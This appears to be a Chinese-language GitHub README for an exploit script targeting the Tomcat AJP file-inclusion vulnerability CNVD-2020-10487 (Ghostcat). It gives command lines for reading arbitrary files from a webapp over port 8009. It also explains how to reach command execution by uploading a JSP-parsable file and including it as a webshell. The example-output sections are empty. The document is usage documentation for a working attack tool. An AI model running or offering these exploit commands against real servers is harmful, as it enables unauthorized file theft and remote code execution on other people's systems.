

# CNVD-2020-10487-Tomcat-Ajp-lfi
Tomcat-Ajp协议文件读取漏洞

## 使用

1. 读取指定webapp下的指定文件
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/readfile.file -w webappname -p 8009 127.0.0.1
```

运行示例：


2. 执行命令，以此漏洞执行命令的前提是攻击的Tomcat webapp目录中存在内容可控的任意文件，该文件可以不是以.jsp或者.jspx格式结尾的文件，任意文件名即可，只需保证文件内容能被jsp解析器正确解析（可通过webapp提供的文件上传功能实现文件上传）。
且使用方法与读取文件的使用方法有小部分差异，即-w/--webapp的参数值需要指定为webshell所在的webapp下的任意一个jsp文件，如：-w examples/jsp/jsp2/el/basic-arithmetic.jsp
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/remote_code.file -w webappname/path/to/jspname.jsp -p 8009 127.0.0.1
```

运行示例：

